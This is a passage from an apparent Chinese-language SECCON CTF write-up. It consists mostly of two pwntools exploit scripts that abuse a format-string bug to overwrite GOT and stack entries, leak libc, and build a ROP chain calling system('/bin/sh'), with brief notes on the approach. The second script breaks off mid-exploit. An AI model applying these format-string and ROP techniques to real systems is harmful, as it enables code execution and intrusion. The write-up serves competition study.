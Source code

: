 ```py
p.sendline(b"%3584c%8$hn"+b"%11$p"+p64(printf_got)[:-1])
p.recvuntil("0x")
libc_leak = int(p.recv(12), 16)
libc_base = libc_leak - 0x2a1ca
print("libc_base: ", hex(libc_base))
binshell_addr = libc_base + 0x1cb42f
system_addr = libc_base + 0x58740
pred =  b" answered, a bit confused.\n\"Welcome to SECCON,\" the cat greeted "
payload = b"a"*40+p64(ret)+p64(pop_rdi_ret)+p64(binshell_addr)+p64(system_addr)
succ = b" warmly.\n"
sleep(1)
p.send(pred+payload+succ)
sleep(10)
p.send(pred+payload+succ)
p.interactive()
```

其中有几个小点：
- 覆盖 got 的时候可以看到 libc 中有若干个 scanf 相关的函数，这里我们用 `__isoc99_scanf` 而不是 `scanf` 的原因是 scanf 地址高于 printf 所以如果需要覆盖的话就会要覆盖大数，影响在一次格式化字符串中 leak libc，而 `__isoc99_scanf` 低于 printf，只用爆破 1/16 的地址，即可同时 write & leak   
- send 第一次可能收不进去，所以还要等一点时间 send 第二次，之前也遇到过一次，感觉这应该也是常见思路hhh

### 行为艺术
放一下比赛的exp
```py
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
p=process("./chall")
libc = ELF("./libc.so.6")
p.recvuntil("the black cat asked.\n")
gdb.attach(p)
pause()
# 重入 main 用任意写的方法覆盖
payload = "%16387c%8$ln"+"\x59\xf9" # test 0xac 
p.sendline("%9$p"+payload)
p.recvuntil("cat greeted")
p.recvuntil("ln")
stack_leak = u64(p.recv(6).ljust(8, b"\x00"))
print("stack_leak: ", hex(stack_leak))        # 这里 leak 可能有点问题 有0截断 还是要解析前面的 %p 来 leak
# 回到 main 还要再覆盖一次 返回地址
# 0x7ffccadc9ad8 0x7ffccadc9a39
stack_addr = stack_leak +0xd8-0x39
rbp_target = stack_addr - 0x80
# payload =b"%25$p"
# payload += b"%"+str(p64(rbp_target)[0]).encode("latin-1")+b"c%22$hhn"
# payload = payload.ljust(0x10, b"A")
# payload+=p64(stack_addr - 0x8)
# 0x7fff503ffbf9 0x7fff503ffcb8
payload = b"%4198858c%22$lln"+p64(stack_addr)[:-1] # %25$n 
p.recvuntil("the black cat asked.\n")
p.send(payload)
payload3 = b"%176c%14$hhn%7$p"+p64(stack_leak-0xbf9+0xcb8+0x40)[:-1]
# payload3 = b"%p"*11
p.recvuntil("the black cat asked.\n")
p.send(payload3)
p.recvuntil("0x")
# 0x7fc174a07000 0x7fc174c542e0
libc_leak = int(p.recv(12), 16)
libc_base = libc_leak - 0x24d2e0
print("libc_leak: ", hex(libc_leak))
print("libc_base: ", hex(libc_base))
print("stack_addr: ", hex(stack_addr))
system = libc_base + libc.symbols["system"]
```